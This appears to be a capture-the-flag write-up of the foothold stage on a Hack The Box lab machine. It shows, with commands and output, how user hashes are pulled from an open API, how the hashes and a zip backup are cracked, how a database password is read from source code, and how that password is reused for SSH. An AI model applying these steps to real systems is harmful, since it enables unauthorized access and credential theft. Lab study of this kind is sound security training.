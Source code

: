 # Foothold

- We can write a python script to only return the endpoints which don't have the same content as the homepage. We get one hit: /users
![[Pasted image 20210331182923.png]]
- We get a JSON file from the users end point of the API
```bash
curl http://10.10.10.58:3000/api/users | jq
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   611  100   611    0     0   1939      0 --:--:-- --:--:-- --:--:--  1945
[
  {
    "_id": "59a7365b98aa325cc03ee51c",
    "username": "myP14ceAdm1nAcc0uNT",
    "password": "dffc504aa55359b9265cbebe1e4032fe600b64475ae3fd29c07d23223334d0af",
    "is_admin": true
  },
  {
    "_id": "59a7368398aa325cc03ee51d",
    "username": "tom",
    "password": "f0e2e750791171b0391b682ec35835bd6a5c3f7c8d1d0191451ec77b4d75f240",
    "is_admin": false
  },
  {
    "_id": "59a7368e98aa325cc03ee51e",
    "username": "mark",
    "password": "de5a1adf4fedcce1533915edc60177547f1057b61b7119fd130e1f7428705f73",
    "is_admin": false
  },
  {
    "_id": "59aa9781cced6f1d1490fce9",
    "username": "rastating",
    "password": "5065db2df0d4ee53562c650c29bacf55b97e231e3fe88570abc9edd8b78ac2f0",
    "is_admin": false
  }
]
```
- Parsing for better readability:
```bash
cat users_api.json | grep username | awk -F: '{print $2}' | tr --delete ',' | tr --delete "\"" > users
cat users_api.json | grep password | awk -F: '{print $2}' | tr --delete ',' | tr --delete "\"" > passwords

paste -d ":" users passwords > creds && cat creds                                                          
 myP14ceAdm1nAcc0uNT: dffc504aa55359b9265cbebe1e4032fe600b64475ae3fd29c07d23223334d0af
 tom: f0e2e750791171b0391b682ec35835bd6a5c3f7c8d1d0191451ec77b4d75f240
 mark: de5a1adf4fedcce1533915edc60177547f1057b61b7119fd130e1f7428705f73
 rastating: 5065db2df0d4ee53562c650c29bacf55b97e231e3fe88570abc9edd8b78ac2f0

```
- From the JSON file we can see that the admin is : myP14ceAdm1nAcc0uNT, but we can crack all the four passwords. The hases are SHA256.
- We can use hashcat to crack them or online tools. Using online tool.
```text
de5a1adf4fedcce1533915edc60177547f1057b61b7119fd130e1f7428705f73:snowflake - mark
dffc504aa55359b9265cbebe1e4032fe600b64475ae3fd29c07d23223334d0af:manchester - myP14ceAdm1nAcc0uNT
f0e2e750791171b0391b682ec35835bd6a5c3f7c8d1d0191451ec77b4d75f240:spongebob - tom
```

- There is a backup file present for myplaceadmin. Other users have nothing on their login page.
- The backup file is base64 encoded, if we decode and store it in a file and run it against file again, we can see that it is a zip file, but password protected.
- We can use john to crack this.
```bash
zip2john > hash.txt
john --wordlist=$ROCK hash.txt

ng default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
magicword        (new_file.zip)
1g 0:00:00:00 DONE (2021-03-31 18:59) 12.50g/s 2355Kp/s 2355Kc/s 2355KC/s sandrad..becky101
Use the "--show" option to display all of the cracked passwords reliably
Session completed

╭─norman@kali ~/Hack-The-Box/machines/node ‹main*› 
╰─$ john hash.txt --show                                                          
new_file.zip:magicword::new_file.zip:var/www/myplace/node_modules/qs/.eslintignore, var/www/myplace/node_modules/serve
-static/README.md, var/www/myplace/package-lock.json:new_file.zip


```

- We see the password is magicword
- In the zip file, we can see it is the source code of the webpage, app.js or some other conf file would have the database credentials.
- We can see it in app.js
```bash
cat app.js 

... [snip] ...
const url         = 'mongodb://mark:5AYRft73VtFpc84k:@localhost:27017/myplace?authMechanism=DEFAULT&authSource=myplace';
const backup_key  = '45fac180e9eee72f4fd2d9386ea7033e52b7c740afc3d98a8d0230167104d474';

... [snip] ...

```
- We can use this to login through SSH as there are cases of password reuse.
- We can get in as mark
```bash
 ssh mark@10.10.10.58                                                                                        130 ↵ 
mark@10.10.10.58's password:                                                                                          
                                                                                                                      
The programs included with the Ubuntu system are free software;                                                       
the exact distribution terms for each program are described in the                                                    
individual files in /usr/share/doc/*/copyright.                                                                       
                                                                                                                      
Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by                                                  
applicable law.                                                                                                       
                                                                                                                      
              .-.                                                                                                     
        .-'``(|||)                                                                                                    
     ,`\ \    `-`.                 88                         88                                                      
    /   \ '``-.   `                88                         88 
  .-.  ,       `___:      88   88  88,888,  88   88  ,88888, 88888  88   88 
 (:::) :        ___       88   88  88   88  88   88  88   88  88    88   88 
  `-`  `       ,   :      88   88  88   88  88   88  88   88  88    88   88 
    \   / ,..-`   ,       88   88  88   88  88   88  88   88  88    88   88 
     `./ /    .-.`        '88888'  '88888'  '88888'  88   88  '8888 '88888' 

```
